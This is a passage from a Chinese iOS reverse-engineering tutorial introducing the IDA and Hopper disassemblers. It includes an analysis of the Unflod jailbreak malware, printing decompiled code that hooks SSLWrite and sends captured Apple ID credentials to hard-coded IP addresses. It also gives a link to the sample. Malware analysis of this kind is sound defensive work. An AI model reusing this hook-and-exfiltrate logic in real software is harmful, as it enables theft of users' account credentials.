**make, make package, make install**


安装之后，你将看到这个：


### 小结

本节我们简要介绍了 Theos 的安装与 Tweak 程序的开发以及安装流程，并给出了一个小例子，后面会对 Tweak 程序运行的原理进行详细的介绍。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.7 IDA：强大的反汇编工具

[IDA](https://www.hex-rays.com/products/ida/index.shtml)是一个非常强大的反汇编和调试工具，支持 Windows,Linux, Mac OS X 平台，它支持太多的功能了，以至于其作者都不能在官方网站上对其进行详细的描述。

正式版本是需要收费的，正因为其功能强大，收费也非常贵。不过，它有试用版本可以下载，从[这](https://www.hex-rays.com/products/ida/support/download.shtml)找到[IDA demo download](https://www.hex-rays.com/products/ida/support/download_demo.shtml)，选择下载[IDA Demo 6.5 for Mac](http://out7.hex-rays.com/files/idademo65_mac.tgz)。

下载之后解压并运行，出现如下的示意图：


过几秒会马上提示是否同意 IDA 协议，点击"agree"：


然后会出现 Quick Start，如下图：


选择其中的“New”，然后根据提示选择你需要分析的文件，就可以体验 IDA 的功能了。

### 使用 IDA 分析 iOS 恶意软件 Unflod

tdvx 在 Reddit 上发帖说：从上周起，他用 Snapchat 和 Google Hangouts 的使用经常遇到 crash，经过排查，他发现是下面这个可疑文件导致的：

```
/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib 
```

这个恶意文件位于：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib 或者 framework.dylib。依赖于 MobileSubstrate，只在越狱设备上起作用。

从[`deev.es/9xq1`](http://deev.es/9xq1)可以下载改恶意代码的样本，下载需谨慎操作。

下载到本地之后，用 IDA 打开，打开会出现如下图的提示，点击确定即可。


如果你觉得默认的字体太小，可以选择 Option 中的字体，在最右边的 Size 这一列修改。如下图所示：



其中一个 API 叫做 replace_SSLWrite，如下图所示：

 

使用 IDA 的插件 F5 一下，可以得到如下的代码：

```
｀int __fastcall replace_SSLWrite(int a1, char *a2, int a3, int a4)
 {
 ......

 if ( !findhead )
  {
    v19 = strstr(v22, "/WebObjects/MZFinance.woa/wa/authenticate HTTP/1.1");
    if ( v19 )
    {
      findhead = 1;
      strcpy(content, v22);
    }
  }
  if ( findhead == 1 )
  {
    v18 = strstr(v22, "<key>appleId</key>");
    v17 = strstr(v22, "<key>password</key>");
    if ( v18 )
    {
      if ( v17 )
      {
        strcat(content, v22);
        v16 = strstr(content, "</plist>");
        if ( v16 && v16 - content <= 2040 )
          v16[8] = 0;
        v14 = 0;
        v15 = socket(2, 1, 0);
        if ( v15 < 0 )
        {
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
        v13.sa_family = 2;
        *(_WORD *)&v13.sa_data[0] = 0xC61Eu;
        *(_DWORD *)&v13.sa_data[2] = inet_addr("23.88.10.4");
        if ( connect(v15, &v13, 0x10u) < 0 )
        {
          close(v15);
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
        v5 = v15;
        v6 = strlen(content);
        v14 = write(v5, content, v6);
        v11 = 0;
        close(v15);
        v12 = socket(2, 1, 0);
        if ( v12 < 0 )
        {
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
        v10.sa_family = 2;
        *(_WORD *)&v10.sa_data[0] = 0xC61Eu;
        *(_DWORD *)&v10.sa_data[2] = inet_addr("23.228.204.55");
        if ( connect(v12, &v10, 0x10u) < 0 )
        {
          close(v12);
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
        v7 = v12;
        v8 = strlen(content);
        v11 = write(v7, content, v8);
        close(v12);
        findhead = 2;
      }
    }
  }
  v24 = pSSLWrite(v23, v22, v21, v20);
LABEL_20:
  if ( __stack_chk_guard != v25 )
    __stack_chk_fail(__stack_chk_guard, v24, v25, v4);
  return v24;
} 
```

这个恶意代码通过 Hook Security.framework 的 SSLWrite 方法（Hook 函数为 replace_SSLWrite），截取 Apple id 和密码，然后把这些信息发送到 IP 为 23.88.10.4、3.228.204.55，端口为 7878 的服务器。（端口为 7878，也就是上面的 0xC61Eu。注意，这里是 big endian 模式。所以，端口其实是 0x1EC6,即 7878。）

这个恶意软件被 iPhone 开发者证书签名。签名信息如下：

```
$ codesign -vvvv -d Unflod.dylib
Executable=./Unflod.dylib
Identifier=com.your.framework
Format=Mach-O thin (armv7)
CodeDirectory v=20100 size=227 flags=0x0(none) hashes=3+5 location=embedded
Hash type=sha1 size=20
CDHash=da792624675e82b3460b426f869fbe718abea3f9
Signature size=4322
Authority=iPhone Developer: WANG XIN (P5KFURM8M8)
Authority=Apple Worldwide Developer Relations Certification Authority
Authority=Apple Root CA
Signed Time=14 Feb 2014 04:32:58
Info.plist=not bound
Sealed Resources=none
Internal requirements count=2 size=484 
```

需要注意的是，**这并不表示这个人就是这个事情的始作俑者**。这个人可能是假冒的，也可能是其证书被偷窃，也可能是真正涉及到这个事情，但是，我们没有办法知道，但是，苹果需要调查这个事情。

#### 解决方法

如果你的设备上有 Unflod.dylib/framework.dylib 这两个文件，把其删掉，然后重新设置 Apple id 和密码就可以了。

### 关于 IDA 的 F5

IDA 中有一个插件 Hex-Rays.Decompiler，其快捷键是 F5，该插件可以轻易的把 IDA 中的汇编代码转成 C 代码，如上面的 replace_SSLWrite 所示，即使没有一点汇编基础的人都可以反汇编了。这个功能太强大，大家就把使用这个插件把汇编转成 C 代码的过程叫做 F5 一下。

请注意，F5 插件是需要花钱买的，上面转成的代码，是别人转的，使用今天下载的试用版本，是没有 F5 这个功能的，这也可以理解，否则很多人应该都没必要去花钱买正式版本了。

#### The IDA Pro book

它功能太强大，都可以写一本书专门来介绍它，事实上，确实存在这么一本书[The IDA Pro book, 2nd edition](http://idabook.com/index.html), 这本书有中文翻译[IDA Pro 权威指南（第 2 版）](http://book.douban.com/subject/10463039/)

### 小结

本节简要介绍了如何下载是使用 IDA，更强大的功能需要渎职自己去探索，有兴趣的话可以找下文中提到的 The IDA Pro book 这本书读读，然后实践下。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.8 Hopper: 另一款反汇编工具

上一节我们介绍了 IDA，这里我们介绍另一款反汇编工具：Hopper，它有 OS X 和 Linux 版本，能够反汇编 32/64 位 Mac，Linux，Windows 和 iOS 可执行文件。

Hopper Disassembler v3 - Personal License 版本在中国售价 ￥580.01 相对于 IDA 来说相当便宜。

本文我们将使用是 demo 版本，可以从[这里](http://www.hopperapp.com/download.html)下载。

下载完成之后，解压安装。

### 反汇编举例

我们编写一个 demo，在 ViewDidLoad 中调用 UIAlertView，代码如下：

```
- (void)viewDidLoad
{
    [super viewDidLoad];

    UIAlertView *alert =
    [[UIAlertView alloc] initWithTitle:@"Welcome"
                               message:@"Welcome to your iOS Device Ted!"
                              delegate:nil
                     cancelButtonTitle:@"security.ios-wiki.com"
                     otherButtonTitles:nil];

    [alert show];

} 
```


编译运行，使用[SimPholders](http://simpholders.com/)，点击其中的 AlertDemo


会打开目录中选择 AlertDemo 右键，点击 Show Package contents

然后用 Hopper 打开里面的可执行文件


可以看到 ViewDidLoad 中的汇编代码如下：


点击右上角箭头所指的图标，得到如下的伪代码：


可以看到，用 Hopper 能够得到近似源码的伪代码。

```
function -[ViewController viewDidLoad] {
    _PIC_register_ = eax;
    var_44 = @"Welcome to your iOS Device Ted!";
    var_40 = @"security.ios-wiki.com";
    var_72 = arg_offset_x0;
    var_68 = arg_offset_x4;
    var_56 = var_72;
    var_60 = *0x3570;
    var_36 = @"Welcome";
    var_32 = &var_52;
    var_28 = 0x0;
    [[&var_56 super] viewDidLoad];
    eax = [UIAlertView alloc];
    var_52 = objc_msgSend(eax, *0x3558);
    [var_52 show];
    eax = objc_storeStrong(var_32, 0x0);
    return eax;
} 
```

#### 小结

可以看到，Hopper 功能相当强大，它还有更多功能，欢迎读者亲自去尝试下，去买一个正版，价格也比 IDA 便宜得多。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)

# 3.9 小结

本章介绍了 iOS 逆向工程过程中，需要在 Mac 上安装的工具，并且对其用法进行了简要的介绍，下一章将介绍需要在 iOS 设备上安装的工具，然后我们就可以正式开始 iOS 逆向工程之旅了。

* * *

[#3 Mac 上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)